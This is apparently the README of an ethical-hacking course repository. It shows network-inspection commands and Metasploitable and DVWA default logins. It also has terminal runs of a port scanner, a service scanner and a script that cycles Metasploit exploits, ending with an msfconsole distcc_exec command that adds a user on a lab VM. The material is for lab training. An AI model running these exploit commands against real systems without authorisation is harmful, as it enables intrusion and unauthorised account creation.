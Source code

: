 # Pentest


## Learn Python & Ethical Hacking 

---
* <a href="Tutorial.md">Tutorial.md</a>
---
#### Mind map
* <a href="EH_2023_part_1.drawio.svg">EH_2023_part_1.drawio.svg</a>
* <a href="EH_2023_part_2_DVWA.drawio.svg">EH_2023_part_2_DVWA.drawio.svg</a>
* <a href="EH_2023_part_3_WIFI.drawio.svg">EH_2023_part_3_WIFI.drawio.svg</a>
* <a href="EH_2023_part_4_ANDROID.drawio.svg">EH_2023_part_4_ANDROID.drawio.svg</a>

---
## Device information:

  ```shell
  ifconfig
  ```

  ```shell
  ip -c a
  ```
  
  ```shell
  arp -a
  ```
  
  Windows  
  ```shell
  ipconfig /all
  ```
---
## Security Metasploitable

```
Login:password - msfadmin:msfadmin

msfadmin@metasploitable: cd /var/www/dvwa/dvwa/includes/
msfadmin@metasploitable: sudo nano dvwaPage.inc.php

setcookie( 'security', 'medium' )
```
```
http://10.0.2.4/dvwa/security.php

Username: admin
Security Level: low
```

---

## scripts

1. <a href="#port_scanner">Port Scanner</a>
2. <a href="#exploits_and_payloads">Exploits and Payloads</a>
3. <a href="#vulnerability_scanner">Vulnerability Scanner</a>



---

1. **Port Scanner** <a name="port_scanner"></a>  

    ```pycon
    cd 1_port_scan
    ```
    
    ```pycon
    ┌──(kali㉿kali)-[~/PycharmProjects/Complete_EH_Bootcamp_Zero_to_Mastery/1_port_scan]
    └─$ python3 port_scanner_1.py -t 10.0.2.4 -p 100
    
    ```
    
    Some servers may consider such requests as a hacking attempt and block your IP address:
    ```pycon
    ┌──(kali㉿kali)-[~/PycharmProjects/Complete_EH_Bootcamp_Zero_to_Mastery/1_port_scan]
    └─$ python3 port_scanner_2.py -t 10.0.2.1,10.0.2.4 -p 100
    
    ```

2. **Exploits and Payloads** <a name="exploits_and_payloads"></a>  

    ```pycon
    cd 2_exploits_and_payloads
    ```
   
   ```pycon
   ┌──(venv_EH)─(kali㉿kali)-[~/PycharmProjects/Complete_EH_Bootcamp_Zero_to_Mastery/2_exploits_and_payloads]
   └─$ sudo python service_info_3.py 
   [sudo] пароль для kali: 
   {'PORT': '21/tcp', 'STATE': 'open', 'SERVICE': 'ftp', 'VERSION': 'vsftpd 2.3.4'}
   ```

   ```pycon
   ┌──(venv_EH)─(kali㉿kali)-[~/PycharmProjects/Complete_EH_Bootcamp_Zero_to_Mastery/2_exploits_and_payloads]
   └─$ python3 get_exploits_MSF.py
   ```
   
   ```pycon
   ┌──(kali㉿kali)-[~/PycharmProjects/Complete_EH_Bootcamp_Zero_to_Mastery/2_exploits_and_payloads]
   └─$ python MSF_exploits_and_payloads_1.py
   
   Trying exploit:  exploit/unix/misc/distcc_exec
   Trying payload:  payload/cmd/unix/adduser
   Trying command:  msfconsole -q -x "use exploit/unix/misc/distcc_exec; set payload payload/cmd/unix/adduser; set RHOSTS 10.0.2.4; set RPORT 3632; set LHOST 10.0.2.5; check; exit"
   [+] Successful exploitation:  exploit/unix/misc/distcc_exec, Payload: payload/cmd/unix/adduser
   - - - - - - - - - - - - - - - - - - - - 
   ```
   

---

1. **Vulnerability Scanner** <a name="vulnerability_scanner"></a>

    ```pycon
    cd 3_vulnerability_scanner
    ```
   ```pycon
   ┌──(kali㉿kali)-[~/PycharmProjects/Complete_EH_Bootcamp_Zero_to_Mastery/3_vulnerability_scanner]
   └─$ python3 run_scanner.py
   
   ```
   ![run_vulnerability_scanner.gif](animation_gif%2Frun_vulnerability_scanner.gif)


